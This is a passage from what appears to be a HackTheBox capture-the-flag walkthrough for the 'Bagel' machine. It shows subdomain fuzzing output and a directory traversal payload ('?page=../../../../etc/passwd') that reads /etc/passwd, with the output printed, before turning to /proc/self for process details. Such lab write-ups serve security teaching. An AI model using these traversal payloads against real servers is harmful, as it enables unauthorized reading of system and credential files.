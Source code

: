 ```
       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.201:5000
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.bagel.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
________________________________________________

:: Progress: [4989/4989] :: Job [1/1] :: 224 req/sec :: Duration: [0:00:23] :: Errors: 0 ::

```

Neither find anything.

## Shell as phil

### Get Flask Source

#### Identify

I noted above the URL structure that seems to be loading a static HTML page on the main site: `http://bagel.htb:8000/?page=index.html`. My guess is that the server has a main page that handles things typically like a menu bar, and then loads the child page into the body.

I’ll try a basic file read / directory traversal attack to see if I can read other files on the filesystem:

```

oxdf@hacky$ curl http://bagel.htb:8000/?page=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
...[snip]...

```

That’s a successful file read / directory traversal (though not an LFI, please don’t call it that).

#### Process Information

I’ll use this vulnerability to get information about the running process. Each process has a folder in `/proc/[pid]`, and `/proc/self` is a special folder that points to the current pid.

Inside each folder, there’s a bunch of files and symlinks. `cmdline` shows the running command line of the process:
